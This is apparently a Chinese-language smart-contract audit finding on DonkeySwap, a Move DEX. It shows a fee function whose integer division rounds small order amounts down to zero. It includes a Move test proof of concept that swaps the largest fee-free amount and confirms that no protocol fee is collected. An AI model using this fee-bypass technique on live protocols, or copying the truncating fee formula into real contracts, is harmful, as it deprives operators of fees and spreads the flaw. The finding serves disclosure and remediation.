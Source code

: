 ### DonkeySwap：四舍五入错误使协议费被绕过

- 类别：编码错误
- 严重程度：中度
- 影响：中度
- 可能性: 高

#### 描述

DonkeySwap 在下面的函数中通过提取订单金额（size）的百分比来计算适当的协议费用：

```
##[query]
public fun calculate_protocol_fees(
    size: u64
): (u64) {
    return size * PROTOCOL_FEE_BPS / 10000
}
```

如果 "size"参数小于 "10000 / PROTOCOL_FEE_BPS"，费用将向下舍入为 0。

#### 影响

用户在删除流动性、兑换或限制兑换时，可以通过下多个小订单绕过费用。
下面的概念证明证明了这种影响，一个订单的费用为零协议费：

```
##[test(admin=@donkeyswap, user=@0x2222)]
fun WHEN_exploit_fees_rounding_down(admin: &signer, user: &signer) acquires CoinCapability {
    setup_with_liquidity(admin, user);

    let max_exploit_amount = (10000 / market::get_protocol_fees_bps()) - 1;
    assert!(market::calculate_protocol_fees(max_exploit_amount) == 0, ERR_UNEXPECTED_PROTOCOL_FEES);

    let my_usdc = max_exploit_amount;
    mint<USDC>(my_usdc, address_of(user));

    assert!(coin::balance<USDC>(address_of(user)) == my_usdc, ERR_UNEXPECTED_BALANCE);
    assert!(coin::balance<ZEL>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);

    let output = market::swap<USDC, ZEL>(user, my_usdc);

    assert!(coin::balance<USDC>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);
    assert!(coin::balance<ZEL>(address_of(user)) == output, ERR_UNEXPECTED_BALANCE);
    assert!(output > 0, ERR_UNEXPECTED_BALANCE);

    assert!(market::get_protocol_fees<USDC>() == 0, ERR_UNEXPECTED_PROTOCOL_FEES);
    assert!(market::get_protocol_fees<ZEL>() == 0, ERR_UNEXPECTED_PROTOCOL_FEES); // no fees collected
}
```
